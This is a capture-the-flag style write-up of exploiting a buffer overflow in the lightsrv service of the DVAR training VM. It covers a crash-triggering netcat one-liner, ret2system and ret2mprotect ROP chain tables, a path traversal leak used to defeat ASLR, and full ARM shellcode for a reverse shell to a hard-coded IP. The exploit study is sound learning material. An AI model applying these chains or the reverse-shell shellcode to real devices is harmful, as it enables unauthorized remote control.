# Write-up: DVAR ROP Challenge

Not long after I took the „ARM IoT Exploit Laboratory“ training by
@therealsaumil, the following tweet popped up on my timeline:

[](https://twitter.com/therealsaumil/status/1098191201931452416)

Since ROPping on ARM can easily become a major pain, I decided to take a
look at the [DVAR ROP Challenge](https://blog.exploitlab.net/2018/03/dvar-rop-challenge-bonus-round-unlocked.html).
After getting gdb to play along as I wanted it to do, finding the buffer
overflow in lightsrv was straight-forward. From there, the real pain and
a lot of (re)searching started, finally giving me a reverse shell
through a ret2sys rop chain:

[](./twitter1.png)

So, apparently, there’s even more research due, and I was awarded with
even more knowledge and the dark rings around my eyes got their own dark
rings ?

[](./twitter2.png)

The complete conversation on Twitter can be found,
[here](https://twitter.com/therealsaumil/status/1102433389389332480).

What follows, is a walk-through starting with fine-tuning gdb for easier
debugging, triggering the buffer overflow in lightsrv and gaining the
first reverse shell via a ret2sys rop chain. Afterwards, the journey for
finding mprotect() in a seemingly broken libc.so will be described,
finishing with a working ret2mprotect rop chain which allows to “bx sp”
using any shellcode that we place on the stack, without having to rely
on certain binaries being present at the target system (which would be
the case when returning to the system() function in libc).

## Setting up GDB

Attacking the service was done from a Kali Linux x86_64 VM. Since the
target is running on ARM architecture, we first need to get the
multi-architecture version of the GNU debugger:

``` brush:
apt update && apt install gdb-multiarch
```

Additionally, it is recommended to pimp gdb with [GEF – GDB Enhanced Features for exploit devs & reversers](https://github.com/hugsy/gef/).
It will make debug (and exploitation) life a lot easier.

On the target system, gdbserver will be used for remotely debugging the
lightsrv binary from the attacking machine. That way, no additional
software needs to be installed (or cross-compiled and copied) on the
target:

[](./gdbserver.png)

Since the lightsrv binary is forking for each connection, gdb has to be
configured to follow the child process. In order to not having to
constantly restart the gdbserver on the target machine, gdb should also
be told to not detach from the parent/main process. Finally, a
connection to the remote gdbserver can be established:

[](./gdb0.png)

## Triggering the buffer overflow

Using Python (since I was too lazy to find out how to tell netcat to
send CRLF line endings) and netcat, the buffer overflow can be easily
triggered with the following command:

``` brush:
python -c "print 'GET /' + 'A'*4096 + ' HTTP/1.1\r\nHost: BBBBBBBB\r\n\r\n'" | nc <dvar_ip> 8080
```

Gdb will follow the forked child process, catch the crash and pause the
target’s execution for further investigation:

[](./gdb2.png)

As can be seen, several registers have been overwritten by the overly
long URI that was requested and a segmentation fault was triggered.
Since this only indicates that the binary can be crashed in a somewhat
controlled way, it doesn’t yet give enough information for exploiting
the crash. Thus, we let the child process simply die away by telling gdb
to continue execution. Using the “info inferiors” command, the parent
process’ ID can be found, and we can simply attach to that, again:

[](./gdb3.png)

If we hadn’t disabled the “detach on fork” option, we would now have to
restart gdbserver on the target and connect to it, again. This can
become quite annoying, as we will produce quite a lot more crashes ?

## Understanding the crash circumstances and finding an exploit vector

From this point on, I will use the awesome
[pwntools](https://github.com/Gallopsled/pwntools) Python library, as it
allows for quick exploit development, providing many useful functions
and hiding all the tedious boilerplate that usually were required.

For finding out which parts of the overly long URI affected which
register, a [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) will be
generated using the pwnlib’s cyclic() function:

[](./gdb4.png)

Investigating the crash in gdb and searching the values’ offsets inside
the De Bruijn sequence tells us quite a few things:

1.  The general-purpose registers \$r4 to \$r8 have been overwritten
    consecutively, starting at offset 2034 of the sequence.
2.  The Link-Register has been overwritten by the next 4 bytes after R8.
3.  At the time of the crash, the program counter had been set to the
    same value as \$lr. The least-significant bit of a jump’s target
    address specifies, whether the next instruction should be run in
    ARM- or THUMB-mode but is cleared upon setting \$pc’s value.
4.  The stack pointer is pointing directly behind the overwrite-location
    of \$lr/\$pc.
5.  Registers \$r1, and \$r9 to \$r12 are all pointing to some locations
    inside the stack. This is important to keep in mind, as it will help
    getting a stack address to invoke mprotect() on (to make the stack,
    or parts of it, executable).

[](./gdb5.png)

In order to verify the found offset for controlling \$pc, a new crash
(after letting the child process die and re-attaching to the parent
process) is triggered with another payload:

[](./gdb7.png)

[](./gdb8.png)

Utilizing a few other features of gdb and GEF, we can further
investigate the crash’s surroundings:

1.  The checksec command tells us that only NX/DEP is active. All other
    security mechanisms are not used by the target binary/system.
2.  There is no mprotect() available in the binary, or any of its loaded
    libraries O.o
3.  Luckily, there is a reference to the system() function inside the
    PLT (Procedure Linkage Table; used for linking and accessing
    external functions).
4.  The binary is linked against libc.so and libgcc_s.so.1, with their
    .text sections starting at 0x40000000 and 0x40078000, respectively.

[](./gdb6.png)

One last thing, before the ropping can begin, is to check for any bad
characters. This can be easily achieved by repeatedly:

1.  Iterating over all 256 characters
2.  Skipping all blacklisted characters
3.  Appending them right after the \$lr-overwrite (where \$sp will point
    to, at crash time)
4.  Crashing the lightsrv binary and investigating the stack for mangled
    values and string cut-offs
5.  Adding mangled/cutting-off characters to the blacklist

Making an educated guess (based on the crashing payload’s location
inside the HTTP request), the string-terminating NULL-byte and
URI-terminating whitespace characters had been added to the blacklist
right from the start:

[](./gdb9.png)

Looking at the stack, we can see that the initial 2 values are the only
bad characters that need to be avoided:

[](./gdb10.png)

Alternatively to the above representation in 8-byte little-endian hex
values, gdb can also be told to display each byte individually:

[](./gdb10b.png)

## ROPping around to gain a first (reverse) shell

Since the stack is marked as non-executable, we can’t simply place some
shellcode there and jump right into it. Instead, a rop chain has to be
built that re-uses existing instructions, mixed with attacker-controlled
data. Since lightsrv’s code section is mapped to a memory region
containing at least one (leading) NULL-byte (starting at offset
0x00010000), we will use libc.so to find the proper instructions.

For quickly finding required gadgets, the tool
[ropper](https://github.com/sashs/Ropper) is used. Since ARM CPUs can
operate in 2 modes, we will run 2 instances of ropper in parallel – one
in ARM and one in THUMB mode. More often than not, when ARM assembly
code gets interpreted as (ARM)THUMB code one can find instructions that
a programmer (or the compiler) would never even consider to use ?

The very first gadget that is usually required is a simple pop {pc}
which retrieves the next address from stack and continues execution at
that address:

[](./ropper0.png)

Looking at the [definition of the system() fun](http://man7.org/linux/man-pages/man3/system.3.html)[c](http://man7.org/linux/man-pages/man3/system.3.html)[tion](http://man7.org/linux/man-pages/man3/system.3.html),
we can see that there is only one parameter required: a pointer to the
command string. If we look at the PLT address of system inside the
lightsrv binary, we can see that it contains a leading NULL and thus
can’t be provided, directly. Instead we’ll search for a rop gadget where
2 registers are subtracted from (or added to, since we can use a
negative number to achieve subtraction) each other:

[](./ropper1.png)

Since the first results affects \$r0 which is required for supplying the
function’s argument, we’ll simply take the second one. The smallest
NULL-byte-free positive number is 0x01010101. Adding that to system’s
PLT address, we get our value for \$r1: 0x01020AC9. As those values have
to be retrieved from the stack, we’ll search for according POP
instructions with ropper. While searching for a POP instruction that
only affects \$r1 (and \$pc, of course), we’ll notice that there is an
instruction in THUMB mode that pops both (and only those) registers that
we need. As mentioned above, we can easily switch to THUMB mode by
simply setting the target address’ LSB. For our convenience, ropper will
already show the “mode-switching” target address colored in green. In
order to jump to system(), we’ll also need a “bx r1” or “blx r1”
instruction which can be found inside the ARM mode instructions:

[](./ropper2.png)

Now that we have a path to system(), we need to find a way to provide a
pointer to the command to be executed. We need to find a way to reliably
calculate the exact address on the stack, since we can’t really add any
NOP instructions to “slide” to the correct location:

[](./ropper3.png)

The found gadget will affect \$r1 which we planned to use for jumping to
the system call, so we’ll have to craft our pointer to the command,
first. We will also have to find a gadget that moves the value of \$r1
to \$r0. Additionally, we will have to set \$r3 to the address of the
previously found “pop {pc}” instruction, since this is the register that
will be used for calculating our “return address”.

Once we have a pointer to the stack in \$r1, we will also have to add a
certain offset to it, since the command will be placed behind our rop
chain. Writing down the rop chain will help with that offset
calculation, and the previously found “sub r1, r1, r3” gadget can be
used with a negative value for \$r3 to add that offset to the retrieved
address:

|       |                           |                                      |
|-------|---------------------------|--------------------------------------|
| ** ** | **Gadget address / data** | **Instruction(s) / notes**           |
| 1     | 0x0002139c                | pop {pc};                            |
| 2     | 0x0005a447                | THUMB: pop {r3, pc};                 |
| 3     | 0x0002139c                | pop {pc};                            |
| 4     | 0x000437ac                | add r1, sp, \#7; mov r0, r4; blx r3; |
| 5     | 0x0005a447                | THUMB: pop {r3, pc};                 |
| 6     | \<offset\>                | Offset to command                    |
| 7     | 0x00058c8c                | sub r1, r1, r3; bx lr;               |
| 8     | 0x00051778                | mov r0, r1; bx lr;                   |
| 9     | 0x0005a067                | THUMB: pop {r1, r3, pc};             |
| 10    | 0x01020AC9                | Value for \$r1                       |
| 11    | 0x01010101                | Value for \$r3                       |
| 12    | 0x00058c8c                | sub r1, r1, r3; bx lr;               |
| 13    | 0x00043850                | blx r1;                              |
| 14    | \<command\>               | The command to be executed           |

After retrieving a pointer to the current stack location, 10 DWORD
values follow with the 10^(th) being the beginning of our command. Since
\$r1 holds a pointer to the 5^(th) element on the stack plus 7, we need
to add 29 (4 \* 9 – 7) to the address (or rather subtract -29 from the
address), in order to point to the beginning of the command. For testing
purpose, to see that all is set up correctly, we’ll replace the “blx r1”
instruction in line 13 with a random 4-byte value to crash the binary:

[](./ropper4.png)

Apparently, the service crashed, but not at the point we wanted it to
crash. Looking at the register values, we can see that the last
successfully executed instruction of our rop chain was the first “sub
r1, r1, r3” in line 7: \$r1 points to the beginning of our command, but
somehow a value further down the stack was popped into \$pc. After the
subtraction finished, the code resumes at the address that \$lr points
to. Though it had initially been overwritten with the address of a “pop
{pc}” instruction, it now points to a completely different address. This
can be easily fixed by adding a “pop lr” gadget and providing the
according address, again. But why did it happen?

The answer is quite simple: When retrieving the stack pointer in line 4,
execution was continued by jumping to \$r3. Since we don’t use a “branch
and execute” (bx), but a “branch, link and execute” (blx) instruction,
the link register gets updated with the address of the instruction that
follows the blx. So, before we can use \$lr, again, it first has to be
repaired:

[](./ropper5.png)

We will use the highlighted gadget for a couple of reasons:

1.  It only affects registers that we don’t really care about.
2.  It affects as little registers as possible, granted that:
3.  We don’t need to set up an additional register for returning

So, after line 6, 4 more lines have to be added: one for the
instruction’s address and 3 for the popped registers’ values:

|     |            |                          |
|-----|------------|--------------------------|
|     | 0x0004aacc | pop {r0, r4, lr}; bx lr; |
|     | ‘r0r0’     | Junk for \$r0            |
|     | ‘r4r4’     | Junk for \$r4            |
|     | 0x0002139c | pop {pc};                |

The offset will also have to be adjusted, since we added 16 more bytes
to the stack:

[](./ropper6.png)

Looks like everything is correct and we can finally pop our reverse
shell. Investigating the target system, it became apparent that we are
quite limited in terms of remote administration tools: telnet is not
available (which was originally deemed as an option for a ret2sys bind
shell), and the same applies to python and perl. The shell is provided
by busybox and we thus can’t use some Bash foo utilizing /dev/tcp.
Netcat is also provided by busybox, and thus highly limited. All it can
do is establish a connection to an IP address (or hostname) on a
specific port. Luckily, there is mkfifo, so we can craft a working
reverse shell piping a FIFO’s output into netcat, netcat’s output into
/bin/sh, and the shell’s output back into the FIFO. Since we can’t rely
on the command being properly terminated with a NULL-character, the last
command is terminated with a semicolon followed by the hash symbol to
comment out the trailing data. Since the whitespace character would
break our payload, we simply use horizontal tabs as a substitute (ash
doesn’t care too much about which blank character is used):

[](./ret2sys.png)

## Detour: Bypassing ASLR

The offset to libc.so’s .text section had been hard-coded. As soon as
ASLR were disabled, this wouldn’t work anymore, since on each start, the
location of the loaded libraries in memory would change.

Luckily, while poking around at lightsrv, it was discovered that we can
request arbitrary files using a path traversal payload. That way, we can
retrieve the process’ memory map and simply parse it for libc’s offset:

[](./path_traversal.png)

## Finding mprotect()

Since return-to-system rop chains are highly dependent on other binaries
being present, it would be desirable to rather craft a
return-to-mprotect-to-stack chain, allowing us to execute arbitrary
shellcode without any external dependencies.

According to gdb, the mprotect() function wasn’t available in the
lightsrv process’ context. This is rather weird, as it is usually
provided by libc.so which lightsrv is linked against. Since we already
retrieved a copy of the used libc.so, we can investigate it with objdump
to (hopefully) quickly find the function’s offset:

[](./libc.png)

My first thought was that the VM image might be corrupted (since my
system tends to act strange, lately). I downloaded the .zip, again,
verified the provided checksum, fired up a fresh copy of the VM and
retrieved the libc, again. Unfortunately, this yielded the same results.
So, apparently, the library was further stripped down to save even more
space (as other libs showed the same behavior). I have no idea what the
devs of OpenWRT did, but apparently everything still works.

If we can’t retrieve the offset statically, there might be a chance to
find it dynamically. In order to do so, the following assembly code had
been crafted:

``` brush:
.global _start
.extern mprotect

_start:
    mov r0, #0xbe
    lsl r0, #8
    add r0, #0xff
    lsl r0, #16
    add r0, r0, #0xd000
    mov r1, #0x1000
    mov r2, #7
    bl mprotect
    mov r0, #0
    mov r7, #1
    svc 0
.end
```

Unfortunately, the DVAR image comes without any build tools.
Fortunately, I took the awesome “ARM IoT Exploit Laboratory” training
where Saumil provided all trainees with an “exploitlab” VM. The VM
contains several prepared Qemu images for the ARM architecture. Using
the ARMv7 image, the assembly can easily be assembled, linked and then
be transferred to the DVAR system:

[](./mprotect0.png)

Assembling the object file worked flawlessly but linking against libc.so
(using the same dynamic linker that was used for lightsrv), ld returns
an error. Looking at ld’s help output revealed that one can specify an
option to ignore unresolved external symbols. That binary can then be
transferred to the target system and investigated dynamically, using
gdbserver, again:

[](./mprotect1.png)

Connecting our local gdb-multiarch to the gdbserver, we can disassemble
the binary’s entry point, find the according code location where
mprotect is being called through the PLT and simply break on that
location:

[](./mprotect2.png)

When we continue the debugee’s execution, gdb will break on the
according location and GEF will show us where we branch to:

[](./mprotect3.png)

From here, we can single-step until we finally hit an address that
starts with 0x400 and should thus reside in libc’s .text section, also
denoting the beginning of the real mprotect() function:

[](./mprotect4.png)

At this point, a little caution is required, though. If we simply
subtracted the previous offset of libc – 0x40000000 – from that address,
we’ll end up with another segmentation fault, due to jumping to a
completely different function. Instead, the xinfo command should be used
to retrieve the offset. For some reason, libc had been loaded several
times into memory, which wasn’t the case with the lightsrv binary. Might
be that this was caused by my quick-and-dirty approach for building a
simple binary that just uses mprotect ^^

If you, dear reader, know about a better way for getting mprotect’s
offset in libc, feel free to leave a comment ?

## ROPping to shellcode via mprotect

Now that we have found mprotect, we can adjust the previous rop chain to
rather call mprotect with the according arguments, marking (a part of)
the stack executable and jumping into our own HTTP-compatible reverse
shell shellcode. Looking at [the definition of mprotect](http://man7.org/linux/man-pages/man2/mprotect.2.html), we need
to provide 3 parameters:

1.  A page-aligned address of the memory region we want to modify (the
    stack)
2.  The size of the memory region we want to adjust (enough to not
    cripple our shellcode)
3.  A protection mask (RWX in our case)

The values will have to be provided via the registers \$r0 through \$r2.
In order to get a page-aligned stack address, we can reuse gadgets from
our previous chain, and then simply apply a logical AND with 0xfffe1001
(since we will take care of the retrieved stack address’ LSB to be 0,
this will work out properly). Using ropper, we can come up with the
following rop chain for setting \$r0:

|     |            |                                              |
|-----|------------|----------------------------------------------|
| 1   | 0x000437ac | add r1, sp, \#7; mov r0, r4; blx r3;         |
| 2   | 0x0004ace0 | pop {r0, r4, lr}; bx lr;                     |
| 3   | ‘r0r0r4r4’ | Junk for popped \$r0 and \$r4                |
| 4   | 0x0002139c | lr = pop {pc};                               |
| 5   | 0x00037c07 | THUMB: movs r0, r1; blx lr;                  |
| 6   | 0x0005a447 | THUMB: pop {r3, pc};                         |
| 7   | 0xfffe1001 | Our mask for page-aligning the stack address |
| 8   | 0x0002617c | pop {lr}; add sp, sp, \#4; bx lr;            |
| 9   | 0x0002139c | lr = pop {pc};                               |
| 10  | ‘AAAA’     | Account for “add sp, sp, 4” in line 8        |
| 11  | 0x0002e390 | add r0, r0, \#1; bx lr;                      |
| 12  | 0x00024f28 | and r0, r0, r3; bx lr;                       |

In lines 2 and 8, we need to fix the link register, as its value got
corrupted by the blx instructions. In line 11, we increment \$r0 by 1,
since it gets set up with an odd value in line 1 and we need to set the
AND mask’s LSB to avoid NULL-bytes.

During the training, Saumil showed a nice trick in regards to mprotect’s
size parameter: base address + size may very well overflow the process’
memory range, without anyone really bothering to yell at us (e.g. by
raising a SIGSEGV). So, we can simply use the smallest, positive
NULL-byte-free value for \$r1:

|     |            |               |
|-----|------------|---------------|
| 1   | 0x00058ee4 | pop {r1, pc}; |
| 2   | 0x01010101 |               |

Setting the value for \$r2 was one of the biggest challenges, but
finally worked out with following gadgets:

|     |            |                                              |
|-----|------------|----------------------------------------------|
| 1   | 0x000598b7 | THUMB: pop {r0, pc};                         |
| 2   | 0x07070707 |                                              |
| 3   | 0x000353ac | and r0, r0, \#0xf; bx lr;                    |
| 4   | 0x000599f5 | THUMB: str r0, \[sp\]; pop {r2, r3, r5, pc}; |
| 5   | ‘r2r2’     | Junk, will be overwritten by str r0, \[sp\]  |
| 6   | 0x0002139c | r3 = pop {pc}; will be needed, later         |
| 7   | ‘r5r5’     |                                              |

The instructions in line 4 finally did the trick: First, the desired
protection mask in \$r0 will be written to the current top of the stack.
Afterwards, this value will be popped off the stack, back into \$r2 ?

All that’s left is finding a gadget that allows us to jump into the
stack. One such gadget can be found at offset 0x00050c09 (in THUMB mode)
in the form of a “blx sp”.

Now that we know which registers are affected by which sub-chain, we can
put them in a sane order:

1.  Assign the value 7 to \$r2
2.  Assign a page-aligned stack address to \$r0
3.  Assign the value 0x01010101 to \$r1
4.  Call mprotect()
5.  Jump to the shellcode
6.  The actual shellcode

For the shellcode, we will use a simple reverse shell that was optimized
to fit into the restrictions the lightsrv service sets:

``` brush:
.section .text
.global _start

_start:
    adr     r1, THUMB+1
    bx      r1
    
THUMB:
.code 16
    /* socket(2,1,0) - syscall 281 */
    mov     r1, #1
    add     r0, r1, #1
    eor     r2, r2, r2
    mov     r7, #255
    add     r7, #26
    svc     #1

    /* save the sockfd in r11 */
    mov     r11, r0

    /* connect(sockfd, &addr, 16) - syscall 283 */
    adr     r1, ADDR
    strb    r2, [r1, #1]    /* write null byte */
    mov     r2, #16
    mov     r7, #255
    add     r7, #28
    svc     #1

    /* dup2 - syscall 63 */
    mov     r0, r11
    eor     r1, r1, r1
    mov     r7, #49
    add     r7, #14
    svc     #1

    mov     r0, r11
    mov     r1, #1
    svc     #1

    mov     r0, r11
    mov     r1, #2
    svc     #1

    /* execve */
    adr     r0, BINSH
    eor     r2, r2, r2
    strb    r2, [r0, #7]    /* Write NULL-terminator for string */
    push    {r0, r2}
    mov     r1, sp
    mov     r7, #11
    svc     #1  

.balign 4

ADDR:
.byte       0x02,0xff       /* AF_INET */
.byte       0x11,0x5c       /* Port 4444*/
.byte       192,168,150,100 /* IP Address */

BINSH:
.ascii      "/bin/shX"
```

Putting it all together, we will first (once again) replace the final
“blx sp” with a random value to check that everything is set as expected
(especially with regards to the now executable stack):

[](./gdb11.png)

Since all looks good, and we accounted for the several blx instructions
corrupting our link register, it’s time finally pop the shell:

[](./ret2mprotect.png)

The shellcode, mptotect test assembly, as well as 2 extensively
commented Python scripts utilizing pwntools [can be found on GitHub](https://github.com/HomeSen/CTFs/tree/master/Exploitlab%20DVAR).
If you have any comments/questions/whatever, feel free to leave a
comment or ping me on Twitter ?
